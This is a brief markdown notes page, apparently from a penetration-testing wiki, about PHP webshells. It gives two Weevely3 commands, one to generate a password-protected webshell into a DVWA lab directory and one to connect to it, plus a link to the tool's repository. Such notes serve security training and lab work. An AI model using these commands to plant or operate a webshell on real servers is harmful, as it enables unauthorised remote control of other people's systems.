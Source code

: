 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Webshells

## PHP

## Weevely3

{% code overflow="wrap" %}
```bash
# generate webshell
./weevely.py generate test123 ~/dvwa/weevely.php
# call webshell
sudo weevely.py <URL>/weevely.php test123
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="weevely3" %}
{% embed url="https://github.com/epinna/weevely3" %}
{% endtab %}
{% endtabs %}
